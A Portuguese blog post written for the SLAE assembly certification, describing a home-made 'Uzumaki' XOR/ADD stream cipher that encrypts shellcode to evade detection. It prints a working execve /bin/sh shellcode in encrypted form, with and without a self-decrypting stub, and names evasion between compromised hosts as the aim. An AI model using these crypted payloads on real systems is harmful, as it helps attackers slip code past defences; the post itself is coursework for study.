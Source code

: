 ```yaml
---
layout: post
title: SLAE - 7th Assignment - Crypted Shellcodes
date: '2013-04-29T12:03:00.000-03:00'
author: geyslan
tags: [slae, shellcode, linux, code, assembly, python, cryptography, hacking, portuguese]
modified_time: '2013-08-22T13:17:25.039-03:00'
blogger_id: tag:blogger.com,1999:blog-2541885528459487831.post-2083288330686489851
blogger_orig_url: http://www.hackingbits.com/2013/04/slae-7th-assignment-crypted-shellcodes.html
---
```


*/\*<br>
Este post é uma sequência. Para melhor entendimento, vejam:<br>
[SLAE - 1st Assignment - Shell Bind TCP](/slae-1st-assignment-shell-bind-tcp.html)<br>
[Hacking do Dia - Shell Bind TCP Random Port](/hacking-do-dia-shell-bind-tcp-random.html)<br>
[SLAE - 2nd Assignment - Shell Reverse TCP](/slae-2nd-assignment-shell-reverse-tcp.html)<br>
[O menor do mundo? Yeah? So Beat the Bits!](/o-menor-do-mundo-yeah-so-beat-bits.html)<br>
[SLAE - 3rd Assignment - Caçando Ovos?](/slae-3rd-assignment-cacando-ovos.html)<br>
[SLAE - 4th Assignment - Encoding and Decoding Gollums](/slae-4th-assignment-encoding-and.html)<br>
[SLAE - 5th Assignment - Metasploit Shellcodes Analysis](/slae-5th-assignment-metasploit.html)<br>
[SLAE - 6th Assignment - Polymorphic Shellcodes](/slae-6th-assignment-polymorphic.html)<br>
\*/*

*This blog post has been created for completing the requirements of the
SecurityTube Linux Assembly Expert certification:*

*[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)*

*Student ID: SLAE-237*

*Códigos deste post estão no [GitHub](https://github.com/geyslan/SLAE/tree/master/7th.assignment)*.

*Shell-Storm:<br>
[Tiny Execve Sh](http://shell-storm.org/shellcode/files/shellcode-841.php)<br>
[Insertion Decoder Shellcode](http://shell-storm.org/shellcode/files/shellcode-840.php)*

##The Last Mission

Finalmente, o último assignment.

###7th assignment

- Criar um crypter customizado.
- Utilizar qualquer esquema de criptografia existente.
- Usar qualquer linguagem de programação.

##Criptografia!

O vídeo sobre o assunto demonstra um encrypter e um decrypter, construídos em C,
que usam o algoritmo de fluxo [RC4](http://en.wikipedia.org/wiki/RC4) para
processar o shellcode. De início eu não contemplei a que fim serviria um
shellcode critptografado que não conteria seu decrypter embutido, portanto,
agradeço ao Pedro Fausto pela objetiva explanação que me deixou inteirado das
possíveis finalidades: uso na comunicação entre dois pontos já comprometidos;
uso entre um bastião e seus zumbis... Em suma, para qualquer uso evasivo entre
pontos!

Encontrei um algoritmo candidato para a implementação do crypter: [TEA - Tiny
Encryption Algorithm](http://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm).
Entretanto, vi que ele não seria viável por conta do tamanho que ele teria em
[assembly](http://nayuki.eigenstate.org/page/tiny-encryption-algorithm-in-x86-assembly);
haja vista não ter aberto mão de criar o built-in decrypter.

Só tinha uma maneira, criar meu próprio tiny
[cipher](http://en.wikipedia.org/wiki/Cipher).

##Uzumaki Cipher (Swirling Everything)

Usei os moldes da [Stream Cipher](http://en.wikipedia.org/wiki/Stream_cipher)
para criar o Uzumaki (うずまき) Cipher; a cifra consiste no processo de um XOR com
um valor estático, seguido de mais um XOR com um valor pseudorandom (keystream),
terminando com o ADD de um valor estático.

###Crypter

**shellcode[x-1] ^ (shellcode[x] ^ xorByte)) + addByte**

###Built-in Decrypter

{% include image.html url="https://raw.github.com/geyslan/SLAE/master/7th.assignment/uzumaki_decrypter.png" desc="Fluxograma do Uzumaki Cipher" %}

O uzumaki cipher é um algoritmo simples que pode ser utilizado com sucesso em
shellcodes quando o assunto é evasão. Devo ressaltar que um dado criptografado,
para sua própria segurança, não deve conter informações que possam levar à
desencriptação; assim, o built-in decrypter do fluxograma acima (no git com
código comentado) foi criado apenas como uma
[PoC](http://en.wikipedia.org/wiki/Proof_of_Concept). Contudo, nada obsta seu
uso.

##Uso

{% highlight console %}
$ ./uzumaki_crypter.py -a 01 -x 5d -s $'\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'
...
Crypted shellcode:

"\x31\xa6\x64\x4c\x0d\xe7\x08\x65\x1b\x5e\x02\x47\x5e\x1b\x11\x57\x5b\xbb\x38\x74\x11";

0x31,0xa6,0x64,0x4c,0x0d,0xe7,0x08,0x65,0x1b,0x5e,0x02,0x47,0x5e,0x1b,0x11,0x57,0x5b,0xbb,0x38,0x74,0x11

Crypted shellcode with decrypter built-in:

"\x29\xc9\x74\x14\x5e\xb1\x14\x46\x8b\x06\x83\xe8\x01\x34\x5d\x32\x46\xff\x88\x06\xe2\xf1\xeb\x05\xe8\xe7\xff\xff\xff\x31\xa6\x64\x4c\x0d\xe7\x08\x65\x1b\x5e\x02\x47\x5e\x1b\x11\x57\x5b\xbb\x38\x74\x11";

0x29,0xc9,0x74,0x14,0x5e,0xb1,0x14,0x46,0x8b,0x06,0x83,0xe8,0x01,0x34,0x5d,0x32,0x46,0xff,0x88,0x06,0xe2,0xf1,0xeb,0x05,0xe8,0xe7,0xff,0xff,0xff,0x31,0xa6,0x64,0x4c,0x0d,0xe7,0x08,0x65,0x1b,0x5e,0x02,0x47,0x5e,0x1b,0x11,0x57,0x5b,0xbb,0x38,0x74,0x11
{% endhighlight %}

##Fim!?

É isso aí pessoal! Essa foi a última missão do curso SLAE! E até que foi
simples, porque no decorrer dos posts, aprendemos muitas formas de utilizar a
linguagem assembly para a criação de vários tipos de shellcodes.

Espero que tenham gostado!

[]

##Mais Informações

[SLAE - SecurityTube Linux Assembly Expert](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)<br>
[Get shellcode of the binary using objdump - Andrey Arapov](http://www.commandlinefu.com/commands/view/12151/get-shellcode-of-the-binary-using-objdump#comment)<br>
[RC4](http://en.wikipedia.org/wiki/RC4)<br>
[Tiny Encryption Algorithm](http://en.wikipedia.org/wiki/Tiny_Encryption_Algorithm)<br>
[Cipher](http://en.wikipedia.org/wiki/Cipher)<br>
[Stream Cipher](http://en.wikipedia.org/wiki/Stream_cipher)<br>
[Uzumaki - Denshi Jisho](http://jisho.org/words?jap=uzumaki&eng=&dict=edict)<br>
